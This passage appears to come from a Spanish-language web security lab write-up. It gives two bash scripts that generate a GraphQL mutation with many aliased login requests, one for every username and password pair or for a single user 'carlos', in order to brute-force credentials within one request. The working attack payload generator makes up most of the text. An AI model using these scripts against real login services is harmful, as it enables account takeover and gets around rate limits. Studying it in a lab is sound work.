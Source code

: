 ```
#!/bin/bash

usernames_file="usernames.txt"
passwords_file="passwords.txt"
output_file="output.txt"
counter=1

echo "mutation {" > "$output_file"

while IFS= read -r username; do
    while IFS= read -r password; do
        echo "    request_${counter}:login(input: {username:\"${username}\",password:\"${password}\"}) {" >> "$output_file"
        echo "        token" >> "$output_file"
        echo "        success" >> "$output_file"
        echo -e "    }\n" >> "$output_file"
        ((counter++))
    done < "$passwords_file"
done < "$usernames_file"

echo "}" >> "$output_file"
```

Si solo queremos `generar payloads para un usuario específico` podemos usar este otro `script`

```
#!/bin/bash

username="carlos"
passwords_file="passwords.txt"
output_file="output.txt"
counter=1

echo "mutation {" > "$output_file"

while IFS= read -r password; do
    echo "    request_${counter}:login(input: {username:\"${username}\",password:\"${password}\"}) {" >> "$output_file"
    echo "        token" >> "$output_file"
    echo "        success" >> "$output_file"
    echo -e "    }\n" >> "$output_file"
    ((counter++))
done < "$passwords_file"

echo "}" >> "$output_file"
```

Para `copiar` todo el `contenido` que se `almacena` en el `archivo`, como son `muchas líneas` es recomendable hacerlo con este `comando`

```
# xclip -sel clip -i output.txt
```
